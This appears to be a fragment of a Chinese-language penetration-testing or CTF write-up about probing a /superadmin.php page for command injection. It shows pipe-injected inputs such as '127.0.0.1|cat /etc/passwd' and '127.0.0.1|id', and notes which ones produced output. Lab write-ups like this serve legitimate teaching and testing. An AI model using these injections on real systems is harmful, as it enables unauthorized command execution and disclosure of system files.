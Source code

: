 确定就是熟悉的命令执行

![image-20250717101406993](./../../_media/image-20250717101406993.png)





### 渗透尝试

已知该目录，/superadmin.php

```
127.0.0.1|ls
```

无回显

```
127.0.0.1|cat /etc/passwd
```

无回显



```
127.0.0.1|id
```

显示：

![image-20250717101458455](./../../_media/image-20250717101458455.png)
